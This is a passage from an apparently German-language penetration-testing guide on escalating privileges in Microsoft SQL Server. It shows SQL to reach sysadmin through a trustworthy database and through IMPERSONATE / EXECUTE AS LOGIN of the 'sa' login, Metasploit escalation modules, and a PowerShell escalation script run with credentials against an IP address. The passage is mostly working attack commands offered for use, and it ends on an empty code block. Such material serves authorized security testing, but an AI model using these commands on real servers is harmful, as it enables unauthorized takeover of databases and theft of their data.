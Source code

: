 ```sql

--2. Execute stored procedure to get sysadmin role
USE <trustworthy_db>
EXEC sp_elevate_me

--3. Verify your user is a sysadmin
SELECT is_srvrolemember('sysadmin')
```
Sie können ein **metasploit** Modul verwenden:
```bash
msf> use auxiliary/admin/mssql/mssql_escalate_dbowner
```
Oder ein **PS**-Skript:
```powershell
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1
Import-Module .Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance 10.2.2.184
```
### Identitätsübernahme anderer Benutzer

SQL Server hat eine spezielle Berechtigung, die **`IMPERSONATE`** genannt wird, die **es dem ausführenden Benutzer ermöglicht, die Berechtigungen eines anderen Benutzers** oder Logins zu übernehmen, bis der Kontext zurückgesetzt wird oder die Sitzung endet.
```sql
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

# If you can't find any users, make sure to check for links
enum_links
# If there is a link of interest, re-run the above steps on each link
use_link [NAME]
```
{% hint style="info" %}
Wenn Sie einen Benutzer impersonieren können, auch wenn er kein Sysadmin ist, sollten Sie überprüfen, **ob der Benutzer Zugriff hat** auf andere **Datenbanken** oder verlinkte Server.
{% endhint %}

Beachten Sie, dass Sie, sobald Sie Sysadmin sind, jeden anderen impersonieren können:
```sql
-- Impersonate RegUser
EXECUTE AS LOGIN = 'RegUser'
-- Verify you are now running as the the MyUser4 login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Change back to sa
REVERT
```
Sie können diesen Angriff mit einem **metasploit** Modul durchführen:
```bash
msf> auxiliary/admin/mssql/mssql_escalate_execute_as
```
oder mit einem **PS** Skript:
```powershell
```